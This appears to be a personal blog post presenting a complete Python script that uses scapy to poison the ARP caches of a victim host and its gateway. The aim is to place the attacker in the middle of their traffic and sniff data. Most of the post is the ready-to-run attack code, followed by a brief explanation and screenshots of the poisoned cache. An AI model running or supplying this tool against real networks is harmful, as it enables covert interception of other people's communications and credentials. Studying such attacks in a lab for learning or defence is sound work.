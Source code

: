 ```yaml
---
title: An ARP Spoof/Poison Program
date: 2021-06-28 10:45:47 +07:00
categories: python
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A Program to poison the ARP cache of a victim host.
---
```


<p align="left">
 <img src="https://lh3.googleusercontent.com/proxy/clLO-Dejdq-3W08zUlEHbJC-P4-GGCl81DdZcJLYLn5_60bR36PPp8kZVjXWkkBG_4JWO9pFL7A49tL3hRNpEII7k9MCdrs5uisoMfqhTzMBdZ-2PecIhwhNg0xDJtiDsDC5MnzsAzVP869KMVome1L6XcZSeE_rrXI">
</p>


## This is a python script that poisons the ARP cache of a victim and the gateway/router to MITM and sniff data succesfully and resets the cache back upon hitting "CTRL+C".

- We sent the spoofed packets using the scapy.ARP() method. (Setting opcode=2 as a response)

- We print dynamically using the print function as follows: `print("\r CONTENT, end="")` (set a null char as delimiter rather than the default \n)

- Implemented a restore function to restore the arp cache.


### Code:

```python
#!/usr/bin/env python
import sys
import re
import scapy.all as scapy
import time
import re
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target_ip", dest="target_ip", help="Target IP address to MITM")
    parser.add_argument("-g", "--gateway_ip", dest="gateway_ip", help="Gateway/router's IP address to MITM")
    options = parser.parse_args()
    if not options.target_ip:
        # code to handle error
        parser.error("[-] Please specify an target ip, use --help for info.")
    if not options.gateway_ip:
         # code to handle error
         parser.error("[-] Please specify a gateway ip, use --help for info.")
    return options

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    clients_list = ""
    for element in answered_list:
        # use show method to view packet contents.
        clients_list += element[1].hwsrc
    return clients_list

def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    # use scapy.ls(scapy.ARP) to view fields
    # op=2 --> opcode for response , hwsrc automatically set to attackers
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    # count set to 4 to make sure cache is restored
    scapy.send(packet, count=4, verbose=False)

sent_packet_count = 0
options = get_arguments()
target_ip = options.target_ip
gateway_ip = options.gateway_ip

print("""
    
    ███████████████████████████████████████████████
    ██▀▄─██▄─▄▄▀█▄─▄▄─█─▄▄▄▄█▄─▄▄─█─▄▄─█─▄▄─█▄─▄▄─█
    ██─▀─███─▄─▄██─▄▄▄█▄▄▄▄─██─▄▄▄█─██─█─██─██─▄███
    ▀▄▄▀▄▄▀▄▄▀▄▄▀▄▄▄▀▀▀▄▄▄▄▄▀▄▄▄▀▀▀▄▄▄▄▀▄▄▄▄▀▄▄▄▀▀▀
    
""")

try:
    while(True):
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packet_count += 2
        # Dynamic printing
        print("\r[+] Packets sent: " + str(sent_packet_count), end="")
        #time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Resetting ARP tables back to normal!")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)

```

### Output:

*Attacker:*

![Image](arpspoof1.png)

*Target arp cache after cache poisoning:*

![Image](arpspoof2.png)

*Target arp cache after hitting "CTRL+C" to restore cache:*

![Image](arpspoof3.png)





